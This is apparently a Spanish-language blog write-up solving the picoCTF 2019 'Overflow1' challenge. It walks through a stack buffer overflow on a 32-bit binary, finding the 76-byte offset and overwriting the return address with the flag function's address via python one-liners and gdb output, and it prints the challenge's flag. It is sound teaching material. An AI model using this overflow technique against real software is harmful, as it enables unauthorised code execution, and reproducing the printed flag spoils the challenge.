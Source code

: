 ```yaml
---
layout      : post
title       : "PicoCTF2019 - Overflow1"
author      : lanz
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/CTF/picoctf/2019/pwn/overflow1/overflow1.jpeg
category    : [ ctf ]
tags        : [ buffer-overflow ]
---
```

Overflow pa toda la familia, nos moveremos a la función que contiene la flag.

> You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](https://github.com/lanzt/blog/blob/main/assets/files/CTF/picoctf/2019/pwn/overflow1/vuln)? You can find it in /problems/overflow-1_1_e792baa0d29d24699530e6a26071a260 on the shell server. [Source](https://github.com/lanzt/blog/blob/main/assets/files/CTF/picoctf/2019/pwn/overflow1/vuln.c).

### Spanish writeup

El ejercicio nos dice que debemos lograr cambiar la dirección de retorno y que nos lleve a la función `flag`.

Ya con los archivos hacemos:

```bash
$ file *
vuln:      ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=5d4cdc8dc51fb3e5d45c2a59c6a9cd7958382fc9, not stripped
vuln.c:    C source, ASCII text
```

Veamos que hace el programa:

```bash
$ ./vuln 
Give me a string and lets see what happens: 
hello
Woah, were jumping to 0x8048705 !
```

Simplemente nos pide un input y nos dice la instrucción a la que hemos saltado. Así que cuando logremos llegar a la función `flag`, supongo que nos mostrara la dirección.

Source [vuln.c](https://github.com/lanzt/blog/blob/main/assets/files/CTF/picoctf/2019/pwn/overflow1/vuln.c).

```c
#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  ...
  fgets(buf,FLAGSIZE,f);
```

Algunos detalles de assembly antes de seguir:

| Registro | Arquitectura | Descripción |
| :------: | :----------: | :---------- |
| eip      | 32 bits      | El registro que almacena la siguiente instrucción a la cual ir |
| rip      | 64 bits      | Instruction pointer register |
| ebp      | 32 bits      | El registro que apunta a una ubicación fija dentro del marco de una función, así sera más fácil acceder a variables y argumentos |
| rbp      | 64 bits      | Base pointer register |

Siguiendo con el fuente, nos encontramos con un **buffer de 64**, haciendo la prueba de fuego:

```bash
$ python -c 'print "A"*64' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048705 !
```

Vemos que no pasa nada, ya que los siguientes `4 bits` guardaran la data que tenga el registro `ebp` y los siguientes 4 bytes tendrán la dirección de retorno (almacenada en `eip`).

* Lo explica [Dhaval Kapil en su brutal articulo](https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/).

Sumaremos los **4 bytes del `eip`** y los **4 bytes del `ebp`**, se los agregamos a los **64 del buffer**:

```bash
$ python -c 'print "A"*72' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048705 !
Violación de segmento
```

Obtenemos el overflow, tamos bien.

Saquemos la direccion en memoria de la función `flag`. Lo podemos hacer con `gdb`, `objdump`, `ida`.. Usa el de preferencia.

```bash
$ gdb ./vuln
info functions
...
0x080485e6  flag
...
```

Un detalle importante para este paso es conocer si nuestro sistema es [little-endian o big-endian](http://wikitronica.labc.usb.ve/index.php/Little_Endian_y_Big_Endian).

Esto decidirá como va a leer nuestro porcesador el programa. Si eres un `little-endian` (un pequeño indio e.e), entonces debemos colocar la dirección de `flag` en reverso.

* Ejemplo: `0x080485e6  flag` entonces pondremos `e6` `85` `04` `08`.

```bash
$ python -c 'print "A"*72 + "\xe6\x85\x04\x08"' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048700 !
Woah, were jumping to 0x8048705 !
Violación de segmento
```

**¿Por que habrá salido dos veces la instrucción?**

```bash
$ gdb ./vuln -q
Reading symbols from ./vuln...
(No debugging symbols found in ./vuln)
gdb-peda$ b vuln
Breakpoint 1 at 0x8048663
gdb-peda$ r <<< $(python -c 'print "A"*72 + "\xe6\x85\x04\x08"')
```

Continuamos...

```bash
gdb-peda$ c
Continuing.
Woah, were jumping to 0x8048700 !
[----------------------------------registers-----------------------------------]
EAX: 0x22 ('"')
EBX: 0x41414141 ('AAAA')
ECX: 0xffffffff 
EDX: 0xf7fa4010 --> 0x0 
ESI: 0xf7fa2000 --> 0x1d6d6c 
EDI: 0xf7fa2000 --> 0x1d6d6c 
EBP: 0xffffd1b8 --> 0x80485e6 (<flag>:	push   ebp)
ESP: 0xffffd1b4 ("AAAA\346\205\004\b\005\207\004\b\001")
```

Aún no hemos llegado a la dirección de la función `flag`

```bash
Woah, were jumping to 0x8048700 !
Woah, were jumping to 0x8048705 !
```

Si intentamos `"A"*73` vemos esto:

```bash
$ python -c 'print "A"*73 + "\xe6\x85\x04\x08"' | ./vuln
Woah, were jumping to 0x8040008 !
```

**Hemos cambiado el registro que direcciona!!**

Why?

> Sencillamente son los **4 bytes** que ocupa la dirección de la función `flag` que estamos agregando despues de imprimir las `"A"`.

```bash
$ python -c 'print "A"*76 + "\xe6\x85\x04\x08"' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
Flag File is Missing. please contact an Admin if you are running this on the shell server.
```

```bash
Woah, were jumping to 0x80485e6 !
```

Y ahí lo tenemos, estamos en la dirección de la función `flag`.

Si lo corremos en el servidor remoto de picoCTF:

```bash
pico-2019:/$ python -c 'print "A"*76 + "\xe6\x85\x04\x08"' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a1b468a7}Segmentation fault (core dumped)
```

<h3>picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a1b468a7}</h3>

Tenemos la flag (: Y hemos corrompido el flujo del programa.